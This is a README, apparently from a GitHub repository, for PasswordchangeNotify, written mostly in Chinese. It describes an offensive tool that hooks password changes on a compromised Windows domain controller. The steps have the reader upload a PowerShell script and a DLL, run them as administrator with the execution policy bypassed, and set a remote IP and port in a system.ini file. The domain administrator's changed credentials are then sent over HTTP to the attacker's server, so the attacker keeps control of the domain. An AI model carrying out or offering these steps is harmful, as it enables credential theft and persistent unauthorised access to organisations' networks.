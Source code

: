 # PasswordchangeNotify
when pass change ,send the pass to remote host 

一.	简介
工具用途在于我们所控制的域控服务器在修改密码之后，会通过http传输协议发送到我们指定的服务器上，从而我们不会丧失对域控服务器的控制权限。
适用于windows server2008和windows2012（已测）.

二.	操作步骤
1.步骤1
上传HookPasswordChangeNotify.ps1和HookPasswordChange.dll
管理员权限执行：
PowerShell.exe -ExecutionPolicy Bypass -File HookPasswordChangeNotify.ps1
如下图所示:
![image](https://github.com/kevien/PasswordchangeNotify/blob/master/screenshot/1.png)
 
2步骤2
在C:\Windows\System32 新建配置文件 system.ini
其中第一行是你要连接的ip地址
第二行是你所连接的远程ip地址的端口
如下图所示:
![image](https://github.com/kevien/PasswordchangeNotify/blob/master/screenshot/2.png)
 
3步骤3
当域控管理员修改账号之后会在远程服务器的web日志中出现修改后的账号和密码
如下图所示:
![image](https://github.com/kevien/PasswordchangeNotify/blob/master/screenshot/3.png)



